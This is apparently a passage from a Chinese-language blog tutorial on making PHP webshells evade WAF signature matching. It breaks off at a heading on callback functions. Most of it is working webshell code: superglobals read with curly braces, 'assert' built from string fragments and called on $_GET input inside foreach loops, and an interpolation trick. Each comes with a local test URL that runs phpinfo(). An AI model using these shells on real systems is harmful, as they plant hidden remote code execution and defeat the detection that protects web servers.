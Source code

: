 在这里为什么我会将特征绕过，而并没有像其他博客上写的那些，整一堆混淆的方法，原因就是因为，waf毕竟还是通过特征判断的，只有知道了，**waf匹配的正则表达式大概是什么样的，webshell的免杀有真正的意义。**

### 1.$_xxx[xxx] 绕过:

#### 1.1 {}

使用 `{}` 来替代 `[]` 是在 ctf 中十分常见的绕过方式

```php
<?php
echo $_GET{"demo"};
```

#### 1.2 foreach语句

利用复合变量加 `foreach` ，获取参数中的内容，其特点并没有 `[]`，不容易被识别

```php
<?php
$a = "a";
$s = "s";
$c=$a.$s."sert";
foreach (array('_GET') as $r){
    foreach ($$r as $k =>$v){
        $c($v);
    }
}
```

```http
http://127.0.0.1:8081/security/bypass/test22.php?k=phpinfo()
```

### 2.xxx(XXX)绕过

这个特征大致就是某盾，某狗等的正则表达式匹配的内容，只要去消除此特征即可免杀

#### 2.1 ""特性

该原理就是 `""` 中的变量不会被当做字符串使用，会被解析，经过测试该方法基本失效

```php
<?php
$a = "a";
$s = "s";
$c=$a.$s."sert";
$f = $_GET[1]
$c("$f");
```

```http
http://127.0.0.1:8081/security/bypass/test23.php?1=phpinfo()
```

#### 2.2 回调函数
